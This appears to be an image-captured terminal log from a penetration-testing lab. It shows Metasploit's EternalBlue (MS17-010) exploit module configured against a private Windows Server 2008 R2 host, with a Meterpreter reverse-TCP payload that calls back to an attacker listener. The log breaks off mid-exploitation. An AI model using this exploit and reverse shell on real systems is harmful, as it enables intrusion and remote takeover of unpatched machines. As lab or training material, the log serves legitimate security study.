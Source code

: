 ```
Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 auxiliary(scanner/mysql/mysql_login) > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.0.29.76       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target m
                                             achines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machi
                                             nes.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] 10.0.29.76:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.0.29.76:445        - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
[*] 10.0.29.76:445        - Scanned 1 of 1 hosts (100% complete)
[+] 10.0.29.76:445 - The target is vulnerable.
[*] 10.0.29.76:445 - Connecting to target for exploitation.
[+] 10.0.29.76:445 - Connection established for exploitation.
[+] 10.0.29.76:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.0.29.76:445 - CORE raw buffer dump (51 bytes)
[*] 10.0.29.76:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.0.29.76:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 10.0.29.76:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 10.0.29.76:445 - 0x00000030  6b 20 31                                         k 1             
[+] 10.0.29.76:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.0.29.76:445 - Trying exploit with 12 Groom Allocations.
[*] 10.0.29.76:445 - Sending all but last fragment of exploit packet
[*] 10.0.29.76:445 - Starting non-paged pool grooming
[+] 10.0.29.76:445 - Sending SMBv2 buffers
```